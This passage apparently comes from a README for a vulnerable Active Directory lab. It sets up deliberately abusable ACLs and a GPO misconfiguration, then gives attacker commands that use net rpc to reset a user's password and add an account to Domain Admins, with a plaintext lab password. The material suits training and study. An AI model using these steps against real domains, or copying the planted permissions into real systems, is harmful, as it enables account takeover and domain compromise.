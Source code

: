 ```bash
SetAcl (Get-ADUser "hank.schrader") (Get-ADObject 'CN=AdminSDHolder,CN=system,DC=polaris,DC=local') "GenericAll" "None"

# Add a FoceChangePassword (ExtendedRight) ACE to walter.white on hank.schrader
SetAclExtended (Get-ADUser "walter.white") (Get-ADUser "hank.schrader") "ExtendedRight" "00299570-246d-11d0-a768-00aa006e0529" "None"

```


##### Attacker
1. Install the net tool from Samba
```bash
sudo apt-get install samba
```
2. Exploit ACLs
```bash
# Reset hank.schrader password
net rpc password hank.schrader -U polaris.local/walter.white -S 192.168.122.10

# Add walter.white to the Domain Admin group
net rpc group addmem "Domain Admins" "walter.white" -U polaris.local/hank.schrader%sHyangja@10 -S 192.168.122.10
```

#### GPO
1. Open *Group Policy Management*. Create a new Group Policy in *Group Policy Objects*. Link it to the Domain. Edit the Group Policy to do something such as setting the wallpaper.

**OR**

Apply the following configurations in a powershell window.

```bash
New-GPO -Name "Wallpaper Policy" -comment "Change Wallpaper" 
New-GPLink -Name "Wallpaper Policy" -Target "DC=polaris,DC=local"
#https://www.thewindowsclub.com/set-desktop-wallpaper-using-group-policy-and-registry-editor
Set-GPRegistryValue -Name "Wallpaper Policy" -key "HKEY_CURRENT_USER\Control Panel\Colors" -ValueName Background -Type String -Value "100 175 200"
#Set-GPPrefRegistryValue -Name "StarkWallpaper" -Context User -Action Create -Key "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System" -ValueName Wallpaper -Type String -Value "C:\tmp\GOAD.png"

Set-GPRegistryValue -Name "Wallpaper Policy" -key "HKEY_CURRENT_USER\Control Panel\Desktop" -ValueName Wallpaper -Type String -Value ""
#Set-GPPrefRegistryValue -Name "StarkWallpaper" -Context User -Action Create -Key "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System" -ValueName WallpaperStyle -Type String -Value "4"

Set-GPRegistryValue -Name "Wallpaper Policy" -Key "HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows NT\CurrentVersion\WinLogon" -ValueName SyncForegroundPolicy -Type DWORD -Value 1

# Allow hank.schrader to Edit Settings of the GPO
# https://learn.microsoft.com/en-us/powershell/module/grouppolicy/set-gppermission?view=windowsserver2022-ps
Set-GPPermissions -Name "Wallpaper Policy" -PermissionLevel GpoEditDeleteModifySecurity -TargetName "hank.schrader" -TargetType "User"
```

